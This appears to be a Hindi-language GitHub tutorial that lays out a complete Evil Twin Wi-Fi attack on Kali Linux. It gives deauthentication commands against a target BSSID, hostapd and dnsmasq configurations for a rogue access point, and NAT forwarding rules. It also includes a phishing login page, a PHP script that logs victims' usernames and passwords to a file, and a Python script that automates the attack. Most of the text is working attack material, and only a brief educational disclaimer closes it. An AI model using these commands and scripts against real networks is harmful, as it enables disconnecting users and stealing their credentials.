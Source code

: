 # Evil Twin Attack - पूरा लैब सेटअप (Kali Linux)

---

## 1. Evil Twin क्या है?
Evil Twin Attack में हम एक नकली Wi-Fi Access Point बनाते हैं, जो असली नेटवर्क जैसा दिखता है।  
जब यूज़र गलती से इस नकली AP से जुड़ता है, हम उसकी डाटा चोरी कर सकते हैं या फिशिंग पेज दिखा सकते हैं।

---

## 2. जरूरी टूल्स  
- Kali Linux  
- Wi-Fi एडाप्टर (Monitor Mode और Packet Injection सपोर्ट वाला)  
- Tools: `airmon-ng`, `airodump-ng`, `aireplay-ng`, `hostapd`, `dnsmasq`, `apache2`, `php`  

---

## 3. Bash Commands और Config Files

### 3.1 Wi-Fi एडाप्टर मॉनिटर मोड में डालें
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

### 3.2 टार्गेट नेटवर्क की जानकारी निकालें
```bash
sudo airodump-ng wlan0mon
```

### 3.3 Deauthentication Attack चलाएं (Client Disconnect के लिए)
```bash
sudo aireplay-ng --deauth 10 -a <BSSID> wlan0mon
```

### 3.4 Hostapd Configuration (hostapd.conf)
```conf
interface=wlan0mon
driver=nl80211
ssid=<TARGET_SSID>
channel=<TARGET_CHANNEL>
hw_mode=g
macaddr_acl=0
ignore_broadcast_ssid=0
```

### 3.5 dnsmasq Configuration (dnsmasq.conf)
```conf
interface=wlan0mon
dhcp-range=192.168.50.10,192.168.50.100,12h
dhcp-option=3,192.168.50.1
dhcp-option=6,192.168.50.1
server=8.8.8.8
log-queries
log-dhcp
```

### 3.6 नेटवर्क सेटिंग्स करें
```bash
sudo ifconfig wlan0mon 192.168.50.1 netmask 255.255.255.0 up
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
sudo iptables -A FORWARD -i wlan0mon -j ACCEPT
```

### 3.7 Hostapd और dnsmasq स्टार्ट करें
```bash
sudo hostapd hostapd.conf
sudo dnsmasq -C dnsmasq.conf
```

---

## 4. Phishing पेज (HTML + PHP)

### 4.1 HTML Login Form (index.html)
```html
<!DOCTYPE html>
<html>
<head><title>Login Page</title></head>
<body>
  <h2>Login</h2>
  <form method="POST" action="save.php">
    Username:<br><input type="text" name="username" required><br>
    Password:<br><input type="password" name="password" required><br><br>
    <input type="submit" value="Login">
  </form>
</body>
</html>
```

### 4.2 PHP Script for Saving Credentials (save.php)
```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $user = $_POST['username'];
    $pass = $_POST['password'];
    $data = "Username: $user | Password: $pass\n";
    file_put_contents("log.txt", $data, FILE_APPEND);
    header('Location: https://www.google.com');
    exit();
}
?>
```

---

## 5. Python Automation Script (Optional)
```python
import os
import time

def run_command(cmd):
    print(f"Executing: {cmd}")
    os.system(cmd)

def setup_monitor_mode():
    run_command("sudo airmon-ng check kill")
    run_command("sudo airmon-ng start wlan0")

def deauth_attack(bssid):
    run_command(f"sudo aireplay-ng --deauth 10 -a {bssid} wlan0mon")

def start_hostapd():
    run_command("sudo hostapd hostapd.conf &")

def start_dnsmasq():
    run_command("sudo dnsmasq -C dnsmasq.conf &")

def main():
    setup_monitor_mode()
    target_bssid = input("Enter target BSSID: ")
    deauth_attack(target_bssid)
    start_hostapd()
    start_dnsmasq()
    print("Evil Twin Attack started!")

if __name__ == "__main__":
    main()
```

---

## 6. Attack Flow Summary
1. Wi-Fi एडाप्टर मॉनिटर मोड में डालें।
2. टार्गेट नेटवर्क स्कैन करें और BSSID, Channel नोट करें।
3. Deauth अटैक से क्लाइंट डिस्कनेक्ट करें।
4. Hostapd और dnsmasq से Fake AP चलाएं।
5. Apache सर्वर पर फिशिंग पेज होस्ट करें।
6. Victim जब Fake AP से जुड़े, credentials capture करें।

---

## 7. Legal Disclaimer
यह सामग्री केवल शैक्षिक उद्देश्यों के लिए है। बिना अनुमति किसी नेटवर्क पर हमला करना गैरकानूनी है।

Happy Ethical Hacking!
